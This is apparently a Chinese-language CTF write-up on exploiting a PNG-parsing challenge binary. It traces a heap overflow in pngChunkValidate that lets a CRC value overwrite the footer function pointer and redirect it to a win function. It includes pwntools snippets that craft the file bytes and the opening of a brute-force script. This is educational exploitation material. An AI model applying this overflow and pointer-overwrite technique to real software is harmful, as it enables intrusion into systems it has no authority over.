 应该是在foot调用的时候被修改了, 调用为win函数, 然后head函数没有什么写入堆内的操作, 应该漏洞在chunk内, 

![image-20210726173621920](https://i.loli.net/2021/07/26/ATDLJpEPblMS6g2.png)

![image-20210726173637569](https://i.loli.net/2021/07/26/loV8AFIrcQOdNHP.png)

按照上面的思路分析几个函数, 的确在`pngChunkValidate`函数找到了一个堆溢出.

这个len可以控制, 但是后面的写入回去写入的是crc后的数据, 

![image-20210726181115965](https://i.loli.net/2021/07/26/zvp3NajTAGFqSWI.png)

先实现修改, 这里首先设置了文件头和绕过`pngHeadValidate`函数中的两个检测, 其它位置默认填充'\x00', 

```python
leng = 0x29
cn.sendlineafter("How large is your file?\n\n", str(leng))
pngheader = [0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]
data = list(flat(bytes(pngheader), 'a').ljust(leng, b'\x00'))

# pngHeadValidate
#   check1
data[11] = 0xd
#   check2 crc
data[29] = 0xc9
data[30] = 0xef 
data[31] = 0xf1
data[32] = 0xbd
```

然后发现0x21(33)的位置进入`pngChunkValidate`函数, 

```python
len = (data[0x21] << 24) | (data[0x22] << 16) | (data[0x23] << 8) | (data[0x24]) 
```

然后计算到达`(checker->footer)`的距离, `0x30-1-8`指针会移动到`0x8042f0`, 然后是crc写入到foot的位置, 

![image-20210726182247241](https://i.loli.net/2021/07/26/j5ywsfuIHQetA8x.png)

![image-20210726182424236](https://i.loli.net/2021/07/26/mxQ72I61MuOEJLh.png)

现在修改值已经实现, 如果得到crc后是win函数地址的数据呢, 

### 爆破

我写了一个爆破脚本:

```python
from pwn import * 
import time
context.arch='amd64'
# context.log_level='error'
# context.terminal = ['tmux', 'splitw', '-h']

# cn = remote("mc.ax", 31412)


leng = 0x29
pngheader = [0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]
data = list(flat(bytes(pngheader), 'a').ljust(leng, b'\x00'))

data[11] = 0xd

data[29] = 0xc9
data[30] = 0xef 
data[31] = 0xf1
data[32] = 0xbd
```
